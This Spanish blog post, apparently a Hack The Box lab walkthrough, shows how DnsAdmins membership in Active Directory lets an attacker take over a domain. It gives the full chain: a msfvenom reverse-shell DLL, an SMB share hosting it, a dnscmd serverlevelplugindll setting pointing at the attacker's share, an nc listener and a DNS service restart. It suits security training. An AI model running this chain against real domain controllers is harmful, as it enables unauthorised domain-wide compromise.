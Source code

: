 ```yaml
---
title: Active Directory - Abusando del Grupo DNSAdmins
description: El grupo DNSAdmins permite inyectar una DLL maliciosa que se ejecutará automáticamente al iniciar el servicio.
date: 2024-12-12
categories: [active-directory, dnsadmins]
tags: [grupos-de-usuarios-especiales, escalada-de-privilegios, casos-de-ataques-ad, dnscmd, dll, msfvenom, smbserver]
img_path: /assets/img/abusing-dnsadmins-injecting-dll.png
image: /assets/img/abusing-dnsadmins-injecting-dll.png
---
```


## **Introducción**

Ya hemos publicado varios artículos sobre Active Directory, pero aún quedan muchos más que se irán subiendo próximamente. En este artículo, estaremos viendo como abusar del grupo *DNSAdmins* a nivel de dominio. Este grupo, lo que nos permite es crearnos una *DLL* maliciosa para manipular el servicio *DNS* para que, cuando se pare y arranque el servicio en cuestión, se cargue esta DLL que hemos creado y realices acciones como el usuario *Administrador*.

Para poder realizar este apartado, hemos usado la máquina [Resolute](https://app.hackthebox.com/machines/Resolute) de [Hack The Box](https://app.hackthebox.com/), cuya dirección IP es la *10.10.10.169* y el dominio correspondiente es *megabank.local*.

###  **Gráfico del escenario**

Para que podamos visualizarlo de una manera más sencilla, vamos a mostrar un gráfico representativo del escenario que vamos a realizar.

![abusando del grupo dnsadmins grafico representativo.png](/assets/img/abusando-del-grupo-dnsadmins-grafico-representativo.png)

### **Contexto**

Partiremos de la base en la que nos encontramos como el usuario *Ryan*. Este usuario, forma parte del grupo *Contractors* y este grupo a su vez, forma parte de *DnsAdmins*. Entonces, de forma indirecta, estamos dentro del grupo *DnsAdmins* y podemos realizar esta explotación.

## **Manos a la obra**
### **Identificando el grupo DnsAdmins**

Si miramos el grupo al que pertenecemos, observamos que estamos en el grupo *Contractors*.

```powershell
net user ryan
```

![net user ryan grupo contractors.png](/assets/img/net-user-ryan-grupo-contractors.png)

Sin embargo, al ejecutar el comando `whoami /all` aparece que formamos parte del grupo *DnsAdmins*.

```powershell
whoami /groups
```

![whoami groups vemos dnsadmins.png](/assets/img/whoami-groups-vemos-dnsadmins.png)

Esto se debe a que, el grupo *Contractors*, a su vez es miembro del grupo *DnsAdmins*. Esto lo podemos ver con `net localgroup DnsAdmins`.

```powershell
net localgroup DnsAdmins
```

![net localgroup dnsadmins vemos contractors.png](/assets/img/net-localgroup-dnsadmins-vemos-contractors.png)

Para verlo de una manera un poco más visual, podemos hacer uso de BloodHound. Este, nos muestra el "camino" que sigue nuestro usuario hasta llegar al grupo *DnsAdmin*.

![camino de ryan hasta llegar a dnsadmins.png](/assets/img/camino-de-ryan-hasta-llegar-a-dnsadmins.png)

Ser miembro de este grupo, supone una brecha de seguridad bastante grave sobre el *Domain Controler* ya que, tenemos el poder de inyectar una *DLL* maliciosa que se ejecutará al iniciar el servicio *DNS*. Como estamos dentro del grupo *DnsAdmins* tenemos los permisos necesarios como para parar y arrancar el servicio. A la hora del arranque, esta *DLL* que hemos configurado que se ejecute al inicio del mismo, se ejecutará y podremos realizar cualquier tipo de acción maliciosa como el usuario *Administrator*.

### **Abusando del grupo DnsAdmins**

Vamos a verlo de una manera más práctica. Primero, nos crearemos nuestra *DLL* maliciosa con `msfvenom` que se encargue de enviarnos una *Reverse Shell* a nuestra máquina por un puerto especificado. Los parámetros *LHOST* y *LPORT* pueden variar según el caso en el que nos encontremos y nuestras preferencias.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=NUESTRA-IP LPORT=PUERTO -f dll -o malicious.dll
```

![generando dll maliciosa.png](/assets/img/generando-dll-maliciosa.png)

A continuación, desde la máquina víctima estableceremos un nuevo archivo de configuración de una *DLL*. Esta *DLL* se cargará a través de un recurso compartido a nivel de red que, estaremos alojando en nuestra máquina de atacantes en el cual, estará esta *DLL* que hemos generado con `msfvenom`. Cuando la *DLL* se cargue, se ejecutará y nos enviará la consola a nuestra máquina de atacantes.

Como ya hemos comentado en el párrafo anterior, la *DLL* se cargará de un recurso compartido a nivel de red que estaremos alojando en nuestra máquina. Entonces, nos montaremos ese recurso compartido con `smbserver`.

```bash
smbserver.py smbFolder $(pwd) -smb2support
```

![recurso compartido con la dll.png](/assets/img/recurso-compartido-con-la-dll.png)

> Es **importante** tener en cuenta que si ejecutamos el comando anterior, el recurso compartido tendrá el nombre de *smbFolder* el cual, **se alojará en el directorio actual de trabajo**. Es en este directorio, en el que deberá de estar la *DLL* en cuestión.
{: .prompt-warning}

Para establecer el fichero de configuración *DLL*, usaremos [`dnscmd.exe`](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) de la siguiente manera.

```powershell
dnscmd.exe /config /serverlevelplugindll \\NUESTRA-IP\smbFolder\malicious.dll
```

En este punto, la *DLL* se cargará directamente desde el recurso compartido con nombre *smbFolder* que estará montado en nuestra máquina de atacantes y cuyo nombre de la *DLL* será `malicious.dll`.

### **Ganando acceso como Administrator**

Ahora, nos pondremos en escucha con `nc` por el puerto que le hemos indicado anteriormente a `msfvenom`. En este caso, el puerto en cuestión es el *443*.

```bash
rlwrap nc -nlvp PUERTO
```

![en escucha por el puerto 443 con rlwrap nc.png](/assets/img/en-escucha-por-el-puerto-443-con-rlwrap-nc.png)

Lo último que nos queda es *parar y arrancar el servicio DNS*. 

```powershell
sc.exe stop dns
sc.exe start dns
```

> Puede que el servicio lo tengamos que parar y arrancar **varias veces para que funcione** e incluso, tener que inyectar de nuevo la *DLL*.
{: .prompt-info}

Una vez arrancado el servicio, habremos obtenido una consola como el usuario administrador del dominio y acceso total al *DC*.

![obteniendo consola como administrador gracias a la dll maliciosa.png](/assets/img/obteniendo-consola-como-administrador-gracias-a-la-dll-maliciosa.png)

De esta manera, habremos comprometido el dominio habiéndonos convertido en el usuario con mayor privilegios.

## **Despedida**
Muchas gracias por dar una oportunidad a este artículo y espero que hayas adquirido un nuevo superpoder. Grupos de los que se pueden abusar a nivel de *Active Directory* son muchos, y es por ello que hay que tenerlos todos en cuenta.
